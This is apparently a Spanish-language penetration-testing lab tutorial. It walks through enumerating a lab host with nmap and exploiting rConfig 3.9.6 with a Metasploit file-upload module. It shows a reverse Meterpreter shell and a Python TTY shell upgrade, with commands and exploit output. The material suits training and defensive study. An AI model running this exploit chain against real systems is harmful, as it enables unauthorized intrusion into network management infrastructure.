


# Infiltrating Unix/Linux

W3Techs mantiene un estudio continuo sobre las estadísticas de uso de sistemas operativos. Este estudio informa que más del 70% de los sitios web (servidores web) funcionan en un sistema basado en Unix. Para nosotros, esto significa que podemos beneficiarnos significativamente al seguir ampliando nuestro conocimiento sobre Unix/Linux y cómo podemos obtener sesiones de shell en estos entornos para pivotar potencialmente más dentro de un entorno.

Si bien es común que las organizaciones utilicen proveedores de terceros y en la nube para alojar sus sitios web y aplicaciones web, muchas organizaciones aún alojan sus sitios web y aplicaciones web en servidores en sus entornos de red (on-prem). En estos casos, querríamos establecer una sesión de shell con el sistema subyacente para intentar pivotar a otros sistemas en la red interna.

## Consideraciones Comunes

Como es probable que ya hayan notado, obtener una sesión de shell con un sistema se puede hacer de varias maneras; una forma común es a través de una vulnerabilidad en una aplicación. Identificaremos una vulnerabilidad y descubriremos un exploit que podemos usar para obtener una shell entregando un payload. Al considerar cómo establecer una sesión de shell en un sistema Unix/Linux, será beneficioso tener en cuenta lo siguiente:

* ¿Qué distribución de Linux está ejecutando el sistema?
* ¿Qué shell y lenguajes de programación existen en el sistema?
* ¿Qué función está cumpliendo el sistema en el entorno de red en el que se encuentra?
* ¿Qué aplicación está alojando el sistema?
* ¿Existen vulnerabilidades conocidas?

## Enumerando el Host

```bash
sherlock28@htb[/htb]$ nmap -sC -sV 10.129.201.101
```

```less
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-27 09:09 EDT
Nmap scan report for 10.129.201.101
Host is up (0.11s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 2.0.8 or later
22/tcp   open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:b2:23:75:87:57:b9:d2:dc:88:b9:f4:c1:9e:36:2a (RSA)
|   256 c4:88:20:b0:22:2b:66:d0:8e:9d:2f:e5:dd:32:71:b1 (ECDSA)
|_  256 e3:2a:ec:f0:e4:12:fc:da:cf:76:d5:43:17:30:23:27 (ED25519)
80/tcp   open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Did not follow redirect to https://10.129.201.101/
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
443/tcp  open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2021-09-24T19:29:26
|_Not valid after:  2022-09-24T19:29:26
|_ssl-date: TLS randomness does not represent time
3306/tcp open  mysql    MySQL (unauthorized)
```

### Información Recopilada del Salida

Dado que el sistema está escuchando en los puertos 80 (HTTP), 443 (HTTPS), 3306 (MySQL) y 21 (FTP), puede ser seguro asumir que se trata de un servidor web que aloja una aplicación web. También podemos ver algunos números de versión revelados asociados con el stack web (Apache 2.4.6 y PHP 7.2.34) y la distribución de Linux que se ejecuta en el sistema (CentOS). Antes de decidir en qué dirección investigar más (profundizar en un agujero de conejo), también deberíamos intentar navegar hacia la dirección IP a través de un navegador web para descubrir la aplicación alojada.

## Herramienta de Gestión rConfig

Aquí descubrimos una herramienta de gestión de configuración de red llamada **rConfig**. Esta aplicación es utilizada por administradores de red y sistemas para automatizar el proceso de configuración de dispositivos de red. Un caso práctico de uso sería utilizar rConfig para configurar remotamente interfaces de red con información de direccionamiento IP en múltiples enrutadores simultáneamente. Esta herramienta ahorra tiempo a los administradores, pero, si se compromete, podría utilizarse para pivotar sobre dispositivos de red críticos que conmutan y enrutan paquetes a través de la red. Un atacante malicioso podría apoderarse de toda la red a través de rConfig, ya que probablemente tendrá acceso administrativo a todos los dispositivos de red utilizados para la configuración. Como pentesters, encontrar una vulnerabilidad en esta aplicación se consideraría un descubrimiento muy crítico.

<figure><figcaption></figcaption></figure>

### Descubriendo una Vulnerabilidad en rConfig

Echemos un vistazo más de cerca a la parte inferior de la página de inicio de sesión web, donde podemos ver el número de versión de rConfig (3.9.6). Debemos utilizar esta información para comenzar a buscar cualquier CVE, exploits disponibles públicamente y pruebas de concepto (PoCs). Mientras investigamos, asegúrate de observar de cerca lo que encontramos y entender qué está haciendo. Por supuesto, queremos que esto nos lleve a una sesión de shell con el objetivo.

Utilizar un motor de búsqueda de tu elección dará algunos resultados prometedores. Podemos usar las palabras clave: **rConfig 3.9.6 vulnerability**.

<figure><figcaption></figcaption></figure>

Podemos ver que podría valer la pena elegir esto como el enfoque principal de nuestra investigación. El mismo pensamiento podría aplicarse a las versiones de Apache y PHP, pero dado que la aplicación se está ejecutando en el stack web, veamos si podemos obtener una shell a través de un exploit escrito para las vulnerabilidades encontradas en rConfig.

También podemos utilizar la funcionalidad de búsqueda de Metasploit para ver si hay módulos de exploit que puedan obtenernos una sesión de shell en el objetivo.

### Búsqueda de un Módulo de Exploit

```markdown
msf6 > search rconfig
```

| # | Nombre                                            | Fecha de Divulgación | Rango     | Verificar | Descripción                                                             |
| - | ------------------------------------------------- | -------------------- | --------- | --------- | ----------------------------------------------------------------------- |
| 0 | exploit/multi/http/solr\_velocity\_rce            | 2019-10-29           | excelente | Sí        | Ejecución Remota de Código en Apache Solr a través de Velocity Template |
| 1 | auxiliary/gather/nuuo\_cms\_file\_download        | 2018-10-11           | normal    | No        | Descarga Arbitraria de Archivos Autenticados en Nuuo CMS                |
| 2 | exploit/linux/http/rconfig\_ajaxarchivefiles\_rce | 2020-03-11           | buena     | Sí        | Ejecución Remota de Código Encadenado en rConfig 3.x                    |
| 3 | exploit/unix/webapp/rconfig\_install\_cmd\_exec   | 2019-10-28           | excelente | Sí        | Ejecución de Comando de Instalación de rConfig                          |

Un detalle que a menudo se pasa por alto al confiar en MSF para encontrar un módulo de exploit para una aplicación específica es la versión de MSF. Puede haber módulos de exploit útiles que no están instalados en nuestro sistema o simplemente no están apareciendo en la búsqueda. En estos casos, es bueno saber que Rapid 7 mantiene el código de los módulos de exploit en sus repositorios en GitHub. Podríamos hacer una búsqueda aún más específica usando un motor de búsqueda: `rConfig 3.9.6 exploit metasploit github`.

Esta búsqueda puede señalarnos el código fuente para un módulo de exploit llamado `rconfig_vendors_auth_file_upload_rce.rb`. Este exploit puede conseguirnos una sesión shell en una caja Linux objetivo que ejecute rConfig 3.9.6. Si este exploit no aparece en la búsqueda de MSF, podemos copiar el código de este repositorio a nuestra caja de ataque local y guardarlo en el directorio que nuestra instalación local de MSF está referenciando. Para hacer esto, podemos emitir este comando en nuestra caja de ataque:

### Localizar

```plaintext
sherlock28@htb[/htb]$ locate exploits
```

Queremos buscar los directorios en la salida asociados con el Metasploit Framework. En Pwnbox, los módulos de exploit de Metasploit se mantienen en:

```bash
/usr/share/metasploit-framework/modules/exploits
```

Podemos copiar el código en un archivo y guardarlo en `/usr/share/metasploit-framework/modules/exploits/linux/http`, similar a donde están almacenando el código en el repositorio de GitHub. También debemos mantener msf actualizado usando los comandos `apt update; apt install metasploit-framework` o el gestor de paquetes local. Una vez que encontramos el módulo de exploit y lo descargamos (podemos usar `wget`) o lo copiamos en el directorio correcto desde GitHub, podemos usarlo para obtener una sesión shell en el objetivo. Si lo copiamos en un archivo en nuestro sistema local, asegúrate de que el archivo tenga la extensión `.rb`. Todos los módulos en MSF están escritos en Ruby.

## Usando el Exploit de rConfig y Obteniendo una Shell

En `msfconsole`, podemos cargar manualmente el exploit usando el comando:

### Seleccionar un Exploit

```plaintext
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

Con este exploit seleccionado, podemos listar las opciones, ingresar los ajustes adecuados específicos para nuestro entorno de red y lanzar el exploit.

### Ejecutar el Exploit

```plaintext
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit
```

```plaintext
plaintextCopiar código[*] Iniciado manejador TCP reverso en 10.10.14.111:4444
[*] Ejecutando verificación automática ("set AutoCheck false" para deshabilitar)
[+] Se encontró la versión 3.9.6 de rConfig!
[+] La víctima parece ser vulnerable. ¡Se encontró una versión vulnerable de rConfig!
[+] ¡Iniciamos sesión correctamente!
[*] Subiendo el archivo 'olxapybdo.php' que contiene la carga útil...
[*] Activando la carga útil...
[*] Enviando etapa (39282 bytes) a 10.129.201.101
[+] Eliminado olxapybdo.php
[*] Sesión Meterpreter 1 abierta (10.10.14.111:4444 -> 10.129.201.101:38860) a 2021-09-27 13:49:34 -0400
```

```plaintext
meterpreter > dir
```

| Modo             | Tamaño | Tipo | Última modificación       | Nombre          |
| ---------------- | ------ | ---- | ------------------------- | --------------- |
| 100644/rw-r--r-- | 673    | fil  | 2020-09-03 05:49:58 -0400 | ajax-loader.gif |
| 100644/rw-r--r-- | 1027   | fil  | 2020-09-03 05:49:58 -0400 | cisco.jpg       |
| 100644/rw-r--r-- | 1017   | fil  | 2020-09-03 05:49:58 -0400 | juniper.jpg     |

Podemos ver en los pasos descritos en el proceso de explotación que este exploit:

* Verifica la versión vulnerable de rConfig
* Se autentica con el inicio de sesión web de rConfig
* Sube una carga útil basada en PHP para una conexión de shell reversa
* Elimina la carga útil
* Nos deja con una sesión shell de Meterpreter

### Interactuar con la Shell

```plaintext
meterpreter > shell
```

```plaintext
Process 3958 created.
Channel 0 created.
dir
ajax-loader.gif  cisco.jpg  juniper.jpg
ls
ajax-loader.gif
cisco.jpg
juniper.jpg
```

Podemos entrar en una shell de sistema (`shell`) para obtener acceso al sistema objetivo como si estuviéramos conectados y abrir una consola de CMD.exe.

## Creando una Shell TTY con Python

Cuando entramos en la shell del sistema, notamos que no hay un indicador presente, pero aún podemos emitir algunos comandos del sistema. Esta es una shell que se denomina típicamente como una shell no TTY. Estas shells tienen funcionalidad limitada y pueden prevenir el uso de comandos esenciales como `su` (cambiar usuario) y `sudo` (super usuario), que probablemente necesitaremos si buscamos escalar privilegios. Esto sucedió porque la carga útil se ejecutó en el objetivo por el usuario apache. Nuestra sesión se establece como el usuario apache. Normalmente, los administradores no acceden al sistema como el usuario apache, por lo que no hay necesidad de que se defina un lenguaje de intérprete de shell en las variables de entorno asociadas con apache.

Podemos crear manualmente una shell TTY usando Python si está presente en el sistema. Siempre podemos verificar la presencia de Python en sistemas Linux escribiendo el comando: `which python`. Para crear la sesión de shell TTY usando Python, escribimos el siguiente comando:

### Python Interactivo

```plaintext
python -c 'import pty; pty.spawn("/bin/sh")' 
```

```ruby
sh-4.2$         
sh-4.2$ whoami
whoami
apache
```

Este comando utiliza Python para importar el módulo pty, y luego utiliza la función pty.spawn para ejecutar el binario de la shell bourne (`/bin/sh`). Ahora tenemos un indicador (sh-4.2$) y acceso a más comandos del sistema para movernos por el sistema como deseemos.
